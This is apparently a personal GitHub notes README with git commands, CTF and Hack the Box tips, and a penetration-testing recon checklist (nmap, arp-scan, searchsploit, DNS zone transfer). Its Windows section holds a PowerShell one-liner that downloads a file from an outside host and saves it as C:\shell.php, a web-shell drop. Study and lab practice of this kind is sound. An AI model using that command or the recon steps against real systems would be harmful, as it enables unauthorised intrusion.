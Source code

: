 Personal-Notes
===========================

> Example of how I take and store notes on github (copy this template) 

## Catalog
* [Git and Github](#git-and-github)
* [Windows](#windows)
* [CTF-tips](#tips-and-tricks)
* [Operating procedures](#operating-procedures)
* [HTTP procedures](#http)
* [Ssh procedures](#ssh)
* [Ftp procedures](#ftp)
* [MySQL procedures](#mysql)
* [Samba procedures](#samba)
* [Forensics procedures](#forensics)
* [After Initial Access procedures](#after-gaining-access)
* [Author - About Me ](#author)


### Windows
* `Downloading a file with powershell`
	* `command`
	```
	powershell -Command "$c=new-object System.Net.WebClient;$c.DownloadFile('http://file.kaibro.tw/s','C:\shell.php')"
	```

* `Repairing boot drive`
	* `command`
	```
	navigate too boot with cmd
	bddedit // to view
	bcdedit /f /delete {xxxxxxxx}
	bcdboot c:\windows
	```  

### Git and Github
* `Creating a first repository`
	* create a new repository on the command line
	```
	echo "# demo" >> README.md
	git init
	git add README.md
	git commit -m "first commit"
	git branch -M main
	git remote add origin https://github.com/hackername/demo.git
	git push -u origin main
	```

	* push an existing repository from the command line
	```
	git remote add origin https://github.com/hackername/demo.git
	git branch -M main
	git push -u origin main
	```


* `Branches`
	```
	git branch newbranch - Creates a new branch
	git checkout newbranch - Changes to that branch
	git branch -vv
	git branch -d dev -delete dev branch
	Add or make changed
	git add .
	git commit -m 'Login added'
	git status - Check if changes were made and staging area is empty
	git checkout master - Switch back to master.login.html and stuff in the login         branch vanishes
	git push   => Pushes any changes made
	git merge login(while in master branch)
	```


* `General Commands`
	```
	echo 'First readme file ' > README.md
	git init
	git add README.md
	git commit -m 'first commit'
	git remote - Checks for remote repositories
	git remote add origin https://github.com/hackername/sample.git
	git push -u origin main/master
	git remote remove unwantedremote
	git push
	git pull
	git log
	git init - initalises a local git repository in a folder by creating a .git folder
	git add filename - Adds file to the index
	git status -   Checks the status of the workiing tree or staging area
	git rm cached filename - Removes a file from the staging area
	git commit - Commits changes to the index
	git commit -m 'Commit message goes here'  => Commiting without the editing part
	git push - Pushes to the remote repository
	git pull - Pulls latest changes ffrom remote repository
	git clone - Clones a repository into a new folder
	.gitignore file - Add the name of the file in this file and that file will be ignore during commits (e.g log files)
	```

### Hack the Box -  Tips and Tricks
* `tips`
    * Enumeration is Key
    * Be Organized and Document Everything
    * Do as much recon as possible
    * Keep amazing notes
    * Read writeups and watch videos
    * Set small predictable goals
    * Check other peoples methodology of doing the same thing
    * Learn from your weaknesses

* `links`
    * https://blog.nviso.eu/2020/02/13/my-journey-reaching-1-spot-on-hack-the-box-belgium-10-tips-tricks-and-lessons-learned/
    * https://infosecwriteups.com/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca
    * https://technicalnavigator.in/tips-tricks-for-htbhack-the-box/
    * https://bitvijays.github.io/LFC-VulnerableMachines.html (best)


## Operating procedures
- Find the ip in which the vm is operating using sudo arp-scan -l 
- Add the ip to /etc/hosts
- Also add the name of the box with a .box prefix to `/etc/hosts` e.g venom -> venom.box
- Find services running on the machine, start with a simple scan the go to a detailed scan
- Check all ports first with `nmap -Pn -p- stapler -vvv`
- Scan `common ports` using(`sudo nmap 10.10.147.248 -sC -sS -sV -vv`) and metasploit
- Scan `all ports` using (`sudo nmap 10.10.147.248 -p- -sC -sS -sV -vv`) and metasploit
- Check both `https/http` versions of the sites
- Check ssl info for machine `dnsinfo`
- Try to find exploits for the services found using `searchsploit`
- The name of the box could be a service,username,or password
- Check for vulnerabilities using the script option
- If a service is running on two ports, check both ports , they might be slightly different


### Enumerating ssl
```
- openssl s_client -connect defao.dkut.ac.ke:443 // Check subdomain ssl information for more enumeration with the following command
- You can use shodan to locate other ips using the same ssl cert
```

### DNS
```
host <domain> <optional_name_server>
host -t ns <domain>                 Name Servers
host -t a <domain>                  Address
host -t aaaa <domain>               AAAA record points a domain or subdomain to an IPv6 address
host -t mx <domain>                 Mail Servers
host -t soa <domain>                Start of Authority
host <IP>                           Reverse Lookup
host -l <Domain Name> <DNS Server>  Domain Zone Transfer
```


### Http
#### Enumeration guideline
* Check server/service versions, search exploits on searchsploit
* Check for usernames, shares etc.
* Generate wordlists with cewl and use it as passlist in case you have a username





### Author
* `Links`
	* [My Github](https://github.com/allannjuguna)
	* [My Twitter](https://twitter.com/xubzer0)
	* [My Blog](https://allannjuguna.github.io)